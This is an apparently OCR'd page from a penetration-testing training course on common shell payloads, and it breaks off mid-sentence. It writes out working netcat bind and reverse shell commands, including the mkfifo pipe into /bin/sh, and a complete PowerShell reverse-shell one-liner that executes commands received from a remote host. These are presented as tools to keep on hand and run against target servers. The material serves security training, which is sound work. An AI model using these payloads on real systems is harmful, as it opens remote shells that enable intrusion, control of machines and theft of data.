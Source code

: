  Common Shell Payloads
We'll soon be looking at generating payloads with msfvenom, but before we do that, let's take a look at some common payloads using the tools we've already covered.

A previous task mentioned that we'd be looking at some ways to use netcat as a listener for a bindshell, so we'll start with that. In some versions of netcat (including the nc.exe Windows version included with Kali at /usr/share/windows-resources/binaries, and the version used in Kali itself: netcat-traditional) there is a -e option which allows you to execute a process on connection. For example, as a listener:

nc -lvnp <PORT> -e /bin/bash

Connecting to the above listener with netcat would result in a bind shell on the target.

Equally, for a reverse shell, connecting back with nc <LOCAL-IP> <PORT> -e /bin/bash would result in a reverse shell on the target.

However, this is not included in most versions of netcat as it is widely seen to be very insecure (funny that, huh?). On Windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a bind shell:

mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

The following paragraph is the technical explanation for this command. It's slightly above the level of this room, so don't worry if it doesn't make much sense for now -- the command itself is what matters.

The command first creates a named pipe at /tmp/f. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into sh, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.



A very similar command can be used to send a netcat reverse shell:

mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.



When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.

This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:

powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

In order to use this, we need to replace "<IP>" and "<port>" with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:
